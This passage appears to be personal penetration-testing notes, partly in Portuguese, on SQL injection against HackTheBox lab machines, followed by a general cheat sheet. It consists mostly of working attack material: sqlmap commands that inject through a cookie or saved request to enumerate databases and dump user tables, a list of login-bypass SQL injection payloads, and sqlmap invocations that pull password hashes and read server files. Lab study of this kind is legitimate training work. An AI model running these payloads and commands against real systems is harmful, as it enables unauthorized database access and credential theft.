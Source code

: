     `sqlmap -u "[https://checkout.shared.htb/](https://checkout.shared.htb/)" --cookie='custom_cart={"*":"1"}' --level=3 --risk=3 --fresh-queries --dbs`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2031.png)
    
    `sqlmap -u "[https://checkout.shared.htb/](https://checkout.shared.htb/)" --cookie='custom_cart={"*":"1"}' --level=3 --risk=3 --fresh-queries -D checkout --tables`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2032.png)
    
    `sqlmap -u "[https://checkout.shared.htb/](https://checkout.shared.htb/)" --cookie='custom_cart={"*":"1"}' --level=3 --risk=3 --fresh-queries -D checkout -T user --dump`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2033.png)
    
    Email
    
    ```bash
    admin' or 1 = 1 -- -
    sqlmap -r goodgames.req
    ```
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2034.png)
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2035.png)
    
    ```bash
    Guardar a Request num ficheiro
    sqlmap -r goodgames.req
    sqlmap -r goodgames.req --dbs --Identifica as Bases de dados
    sqlmap -r goodgames.req -D main --tables -- Identifica as tabelas
    sqlmap -r goodgames.req -D main -T user --dump -- Faz o dump da tabela user
    
    ```
    
    # **Common Injections for Login Forms:**
    
    - `admin' --`
    - `admin' #`
    - `admin'/*`
    - `' or 1=1--`
    - `' or 1=1#`
    - `' or 1=1/*`
    - `') or '1'='1--`
    - `') or ('1'='1—`
    
    # **SQLMap**
    
    - `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
        - Automated sqlmap scan
    - `sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3`
    - `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`
        - Targeted sqlmap scan
    - `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump` Scan url for union + error based injection with mysql backend and use a random user agent + database dump
    - `sqlmap -o -u "http://meh.com/form/" –forms`
        - sqlmap check form for injection
    - `sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users –dump`
        - sqlmap dump and crack hashes for table users on database-name.
    - `sqlmap --flush session`
        - Flushes the session
    - `sqlmap -p user --technique=B`